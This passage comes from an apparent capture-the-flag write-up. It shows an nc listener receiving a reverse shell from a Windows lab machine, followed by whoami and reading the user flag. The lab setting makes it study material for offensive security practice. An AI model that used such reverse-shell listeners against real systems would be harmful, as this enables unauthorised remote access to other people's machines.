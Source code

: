 ![](/img/image-20240301161029674.png)

When I send, it just hangs, but a few seconds later at `nc`:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.238 62885
    Spawn Shell...
    Microsoft Windows [Version 10.0.19045.3570]
    (c) Microsoft Corporation. All rights reserved.

    c:\windows\system32\inetsrv> whoami
    appsanity\svc_exampanel



The user flag is on the exampanel user's desktop:



    c:\Users\svc_exampanel\Desktop> type user.txt
    1198a84a************************



Running `powershell` converts this shell from `cmd` to `powershell`,
which is also nice.

## Shell as devdoc
